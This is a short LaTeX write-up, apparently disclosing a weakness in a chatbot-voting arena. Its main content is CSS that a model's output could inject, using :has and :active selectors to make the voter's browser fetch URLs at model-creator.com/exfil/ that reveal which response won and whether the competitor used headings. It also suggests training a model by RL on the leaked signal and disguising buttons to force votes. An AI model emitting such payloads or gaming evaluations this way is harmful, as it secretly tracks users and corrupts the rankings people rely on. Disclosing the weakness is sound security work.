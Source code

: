\documentclass[11pt,a4paper]{article}
\begin{document}
\section{Sampling Votes}
SVGs aren't the only thing LLMs can include in their responses. \verb|<style>| tags can be included too, and apply to the whole document. The obvious next step is to smuggle info about votes out. The code for this might look something like

\begin{lstlisting}[caption=Code to smuggle vote info out]
/* Setup */
#component-56::before, #component-57::before {
  content: " ";
  background-image: var(--bg-1), var(--bg-2);
  --bg-1: url("https://model-creator.com/exfil/nothing");
  --bg-2: url("https://model-creator.com/exfil/nothing");
}

/* Basic vote logging */
#component-32:has(#component-42:has(style)) ~ #component-55 > #component-56:active {
  --bg-1: url("https://model-creator.com/exfil/win");
}
#component-32:has(#component-45:has(style)) ~ #component-55 > #component-57:active {
  --bg-1: url("https://model-creator.com/exfil/win");
}
#component-32:has(#component-42:has(style)) ~ #component-55 > #component-57:active {
  --bg-1: url("https://model-creator.com/exfil/lose");
}
#component-32:has(#component-45:has(style)) ~ #component-55 > #component-56:active {
  --bg-1: url("https://model-creator.com/exfil/lose");
}

/* Competitor content logging */
#component-32:has(#component-42:has(style)):has(#component-45 h2) {
  --bg-2: url("https://model-creator.com/exfil/competitor-used-headings");
}
#component-32:has(#component-45:has(style)):has(#component-42 h2) {
  --bg-2: url("https://model-creator.com/exfil/competitor-used-headings");
}
\end{lstlisting}

You could extend this a lot. You could attach generation IDs to have the output as context, extend the logging to track the very specifics, and even theoretically apply RL to make a model that ranks at the very top.

\section{Complete Rigging}
This is so stupid, but you could make one of the buttons look like both buttons, forcing votes for yourself.
\end{document}
